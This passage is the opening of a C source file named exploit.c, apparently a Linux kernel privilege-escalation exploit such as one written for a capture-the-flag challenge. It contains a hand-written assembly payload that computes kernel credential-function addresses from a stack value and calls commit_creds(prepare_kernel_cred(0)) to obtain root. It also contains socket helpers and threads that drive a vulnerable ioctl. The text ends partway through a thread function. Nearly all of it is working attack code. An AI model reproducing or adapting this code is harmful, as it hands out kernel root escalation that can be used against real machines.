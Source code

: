 ```exploit.c

#define DIFF_PREPARE_KERNEL_CRED 0x38f4b
#define DIFF_COMMIT_CREDS 0x3944b

void nirugiri()
{
  asm(
    "mov rax, [rsp+0x28]\n"
    "sub rax, 0x38f4b\n"
    "xor rdi, rdi\n"
    "call rax\n"
    "mov rdi, rax\n"
    "mov rax, [rsp+0x28]\n"
    "sub rax, 0x3944b\n"
    "call rax\n"
    //"mov rax, [0xaaa]\n" // PROBE
    "leave\n"
    "ret\n"
  );
}


int listenat(int port) {
  printf("[.] creating listening socket @ %d ...\n", port);
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  assert(sock != -1);
  struct sockaddr_in addr;
  memset(&addr, 0, sizeof(addr));
  addr.sin_family = AF_INET;
  addr.sin_port = htons(port);
  addr.sin_addr.s_addr = htonl(INADDR_ANY);
  assert(bind(sock, (struct sockaddr*)&addr, sizeof(addr)) != -1);
  assert(listen(sock, 999) == 0);

  return sock;
}

int connectto(int port) {
  puts("[.] creating client socket");
  int csock = socket(AF_INET, SOCK_STREAM, 0);
  assert(csock != -1);
  struct sockaddr_in caddr;
  memset(&caddr, 0, sizeof(caddr));
  caddr.sin_family = AF_INET;
  caddr.sin_port = htons(port);
  caddr.sin_addr.s_addr = inet_addr("127.0.0.1");
  assert(connect(csock, &caddr, sizeof(caddr)) == 0);

  return csock;
}

static void *receiver(void *arg) {
  puts("[+] receiver thread started");
  while(GO == 0);
  ioctl(victim_sock_fd, OPTION_PUT, NULL);
  while(1 == 1) {
    recv(attacker_sock_fd, bigrcvbuf, BIGSIZE, 0);
  }
  return NULL;
}

static void *writer(void *arg) {
  puts("[+] writer thread started");
```